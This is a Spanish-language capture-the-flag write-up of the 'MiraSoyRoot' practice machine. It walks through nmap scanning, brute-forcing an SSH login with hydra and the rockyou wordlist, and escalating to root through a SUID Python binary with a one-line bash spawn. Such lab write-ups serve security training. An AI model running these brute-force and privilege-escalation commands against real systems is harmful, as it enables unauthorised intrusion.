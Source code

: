 ```yaml
---
layout: post
title: Mirasoyroot
subtitle: Plataforma MiraSoyRoot Dificultad Muy Fácil
cover-img: /assets/img/mirasoyroot.png
thumbnail-img: /assets/img/mirasoyroot.png
share-img: /assets/img/mirasoyroot.png
author: Elmili72
---
```


![mirasoyroot](https://github.com/user-attachments/assets/bd2573ef-3808-46df-9b21-c248c8e94fc0)

## Escaneo general de puertos

Como siempre, emepezamos realizando un escaneo de los puertos que pudiera tener abiertos nuestra víctima.

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 16:24:17 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

Una vez conocidos, realizaremos un escaneo específico de los puertos encontrados para conocer los servicios y la versión de estos. En este caso de los puertos 22 (SSH) y 80 (HTTP).

```bash
❯ nmap -sCV -p22,80 172.17.0.2 -oN escaneo
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 03:56:8c:b4:94:cc:4b:c5:66:08:73:43:68:68:25:96 (ECDSA)
|_  256 ce:44:d8:21:9b:a5:7c:79:df:3c:d5:e1:d5:8a:d2:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: M\xC3\xA1quina Vulnerable
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Servicio Web

Al ver el servicio web es conveniente realizar un reconocimiento incial de este, para ver por encima el contenido y como está montado. De primeras nada demasiado importante (obviando que nos dice que el título es máquina vulnerable jajaja).

```bash
❯ whatweb http://172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[Máquina Vulnerable]
```

![Pasted image 20250623162730](https://github.com/user-attachments/assets/0ab0ee0a-07c5-40a0-9605-c27992a1c428)

No aparece nada útil en la fuente de la página. Por lo que podemos probarlo como usuario para la fuerza bruta contra el servicio SSH.
## Explotación

Al no encontrar otra vulnerabilidad diferente para explotar en la máquina, directamente, podemos usar hydra para realizar la intrusión al sistema.
### Intrusión

Y efectivamente conseguimos la contraseña del usuario *yerman*.

```bash
❯ hydra -l yerman -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-23 16:29:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: yerman   password: teamo
1 of 1 target successfully completed, 1 valid password found
```

```bash
yerman@50df4a4188d9:~$ whoami
yerman
yerman@50df4a4188d9:~$ id
uid=1001(yerman) gid=1001(yerman) groups=1001(yerman),100(users)
```

## Post-Explotación

Miramos en el archivo */etc/passwd* y no vemos usuarios adicionales, por lo que podemos pensar que no hace falta realizar pivoting. Así que, como siempre, lo que más nos gusta. Toca escalar privilegios :D.
### Escalada de Privilegios

Realicé un *sudo -l* pero no nos permite usar *sudo* directamente, por lo que podemos buscar binarios o archivos con permisos *SUID* para explotarlos y conseguir nuestra escalada. Vemos el binario *python*, tal y como en el anterior writeup de la máquina anonymous.

```bash
yerman@50df4a4188d9:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/python
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Como siempre, si no estás acostumbrado o estás empezando en estos casos siempre recomiendo *GTFOBins* y os lo da muy claro. De todas formas es un oneliner de python muy sencillito con el que generamos una bash, a partir, de el binario explotable. (Intenté darle permisos *SUID* a la propia bash para no tener que realizar este comando todo el rato, pero no supe como, me toca aprender python1 D:).

```bash
yerman@50df4a4188d9:/tmp/privesc$ /usr/local/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
bash-5.2# id
uid=1001(yerman) gid=1001(yerman) euid=0(root) groups=1001(yerman),100(users)
```

Y así conseguimos nuestro usuario *root* y leemos el contanido de la flag.

```bash
bash-5.2# cd /root
bash-5.2# pwd
/root
bash-5.2# ls
mirasoyroot.txt
bash-5.2# ls -la
total 28
drwx------ 1 root root 4096 Jan 31 13:16 .
drwxr-xr-x 1 root root 4096 Jun 23 16:23 ..
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 Jan 31 13:12 .local
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
drwx------ 2 root root 4096 Jan 31 13:09 .ssh
-rw-r--r-- 1 root root  140 Jan 31 13:16 mirasoyroot.txt
bash-5.2# cat mirasoyroot.txt 
Enhorabuena hacker lo has conseguido, si eres de los tres primeros en completar la máquina háblame por Instagram y te pondré en el podio
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!

